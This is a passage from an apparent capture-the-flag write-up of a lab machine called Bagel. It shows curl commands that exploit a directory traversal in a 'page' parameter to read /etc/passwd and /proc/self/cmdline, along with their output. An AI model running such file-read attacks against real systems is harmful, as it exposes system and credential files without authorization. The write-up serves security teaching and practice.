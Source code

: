     :: Progress: [4989/4989] :: Job [1/1] :: 224 req/sec :: Duration: [0:00:23] :: Errors: 0 ::
    
    

Neither find anything.

## Shell as phil

### Get Flask Source

#### Identify

I noted above the URL structure that seems to be loading a static HTML page on
the main site: `http://bagel.htb:8000/?page=index.html`. My guess is that the
server has a main page that handles things typically like a menu bar, and then
loads the child page into the body.

I’ll try a basic file read / directory traversal attack to see if I can read
other files on the filesystem:

    
    
    oxdf@hacky$ curl http://bagel.htb:8000/?page=../../../../etc/passwd
    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    adm:x:3:4:adm:/var/adm:/sbin/nologin
    lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
    ...[snip]...
    

That’s a successful file read / directory traversal (though not an LFI, please
don’t call it that).

#### Process Information

I’ll use this vulnerability to get information about the running process. Each
process has a folder in `/proc/[pid]`, and `/proc/self` is a special folder
that points to the current pid.

Inside each folder, there’s a bunch of files and symlinks. `cmdline` shows the
running command line of the process:

    
    
    oxdf@hacky$ curl http://bagel.htb:8000/?page=../../../../proc/self/cmdline
    Warning: Binary output can mess up your terminal. Use "--output -" to tell 
    Warning: curl to output it to your terminal anyway, or consider "--output 
    Warning: <FILE>" to save to a file.
    oxdf@hacky$ curl -o- http://bagel.htb:8000/?page=../../../../proc/self/cmdline
    python3/home/developer/app/app.py
    

This file uses null bytes to terminate the command string and the argument
string, which makes the output “binary” and `curl` complains. Adding `-o-` is
typically good enough to say “print the result to the terminal anyway”. There
is an invisible null byte between `python3` and `/home`. If I want to be
detailed, I can use `tr` to replace the nulls with spaces:
